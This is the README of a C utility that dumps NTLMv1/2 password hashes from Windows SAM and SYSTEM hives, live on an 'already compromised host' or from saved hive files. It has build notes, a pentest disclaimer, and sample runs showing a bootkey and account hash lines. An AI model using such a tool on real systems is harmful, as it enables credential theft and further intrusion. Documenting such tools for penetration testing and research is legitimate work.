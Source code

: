 # [NTLMv1/2 Hash Dumper](https://github.com/Retr0-code/hash-dumper)

Windows NTLM hash dump utility written in C language, that supports Windows and Linux.

**Hash dumper** has got 2 modes:
 - *Realtime mode* (only for windows);
 - *Extraction mode* (dumps from saved SAM and SYSTEM hives files);

[![GitHub issues](https://img.shields.io/github/issues/Retr0-code/hash-dumper?labelColor=44E26E&color=505050)](https://github.com/Retr0-code/hash-dumper/issues?q=is%3Aopen+is%3Aissue)
[![GitHub closed issues](https://img.shields.io/github/issues-closed/Retr0-code/hash-dumper?labelColor=40D668&color=505050)](https://github.com/Retr0-code/hash-dumper/issues?q=is%3Aissue+is%3Aclosed)
[![GitHub release (latest by SemVer including pre-releases)](https://img.shields.io/github/downloads-pre/Retr0-code/hash-dumper/latest/total?labelColor=32a852&color=505050)](https://github.com/Retr0-code/hash-dumper/releases/latest)
[![GitHub pull requests](https://img.shields.io/github/issues-pr/Retr0-code/hash-dumper?labelColor=288541&color=505050)](https://github.com/Retr0-code/hash-dumper/pulls)

[![GitHub License](https://img.shields.io/github/license/Retr0-code/hash-dumper?labelColor=6967A6&color=505050)](https://github.com/Retr0-code/hash-dumper/blob/main/LICENSE.txt)
[![GitHub commit activity (branch)](https://img.shields.io/github/commit-activity/t/Retr0-code/hash-dumper?labelColor=525182&color=505050)](https://github.com/Retr0-code/hash-dumper/commits/main)

![Linux support](https://img.shields.io/badge/Linux-Supported-505050?labelColor=8C0842)
![NTLMv1](https://img.shields.io/badge/NTLMv1-Supported-505050?labelColor=B00B53)
![NTLMv2](https://img.shields.io/badge/NTLMv2-Supported-505050?labelColor=DE0D68)


## Table of content

 - [Responsibility](README.md#Responsibility)
 - [Building the project](README.md#Building%20the%20project)
 - [Manual](README.md#Manual)

## Responsibility

The author is not responsible for the actions of third parties committed while using the provided software. This software is regarded as a tool for legal penetration testing or conducting research. In case of misuse, the author does not bear any responsibility for the actions of third parties.

## Building the project

For building required *OpenSSL >= 3.0 or OpenSSL 1.1.1* library. Use cmake to generate a solution for Visual Studio or Make file. If CMake cannot find OpenSSL, than set **OPENSSL_ROOT_DIR** and **OPENSSL_LIB_DIR** variables.

**If OpenSSL >= 3.0 was chosen, than legacy provider have to be compiled for RC4 and DES**

 - [Compiling OpenSSL for Windows](https://wiki.openssl.org/index.php/Compilation_and_Installation)
 - [Running CMake with OpenSSL](https://stackoverflow.com/a/45548831)
 - [How to enable legacy provider?](https://github.com/openssl/openssl/issues/20112)

## Manual

You can use this utility to dump NTLMv1/2 hashes from already compromised host by using `--realtime` flag

```
> ./hash_dumper.exe --realtime
[+] Hives successfully opened
[+] Successfully dumped bootkey: 2766FA60DBAB4DEE67237AC942E35271
[+] Successfully hashed the bootkey: 966408e98667069a4884956c5e397575

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:9cf3445f9555a4c246fe2c3c2446b103:::
sandbox:1002:aad3b435b51404eeaad3b435b51404ee:67b6acadb87c12e9d84e6e73b6883601:::

[+] Successfully finished
```

Otherwise You can extract hashes from already saved hives using parameters `--sam <path_to_sam_hive>` and `--system <path_to_system_hive>`

```
> ./hash_dumper.exe --sam hives/sam --system hives/system
[+] Hives successfully opened
[+] Successfully dumped bootkey: 2766FA60DBAB4DEE67237AC942E35271
[+] Successfully hashed the bootkey: 966408e98667069a4884956c5e397575

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:9cf3445f9555a4c246fe2c3c2446b103:::
sandbox:1002:aad3b435b51404eeaad3b435b51404ee:67b6acadb87c12e9d84e6e73b6883601:::

[+] Successfully finished
```

**If You supply all parameters only `--realtime` will work.**
